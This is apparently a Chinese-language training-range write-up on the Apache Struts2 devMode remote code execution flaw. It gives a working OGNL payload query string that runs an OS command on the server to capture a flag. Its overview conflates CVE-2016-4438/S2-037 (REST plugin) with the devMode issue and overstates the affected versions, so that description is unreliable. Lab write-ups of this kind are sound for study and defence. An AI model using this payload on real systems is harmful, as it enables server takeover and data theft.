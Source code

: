 # Struts2-devMode

## 漏洞概述

漏洞概述：Apache Struts 2 是世界上最流行的 Java Web 服务器框架之一。Apache Struts2 在使用 REST 插件的情况下，攻击者使用 REST 调用恶意表达式可以远程执行代码。该漏洞编号为 CVE-2016-4438，目前命名为 S2-037。,黑客可以利用漏洞直接执行任意代码，绕过文件限制，上传文件，执行远程命令，控制服务器，直接盗取用户的所有资料，当 Struts2 开启 devMode 模式时，将导致严重远程代码执行漏洞。如果 WebService 启动权限为最高权限时，可远程执行任意命令，包括关机、建立新用户、以及删除服务器上所有文件等等。该漏洞广泛影响所有 struts 版本。

受影响的软件及系统：在开启 devMode 情况下，本漏洞可影响 Struts 2.1.0--2.5.1，通杀 Struts2 所有版本

启动靶场，随意点击一个测试页面

![1](./1.png)



![2](./2.png)

利用 POC 拿到 Flag

`?debug=browser&object=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=ls`

![3](./3.png)

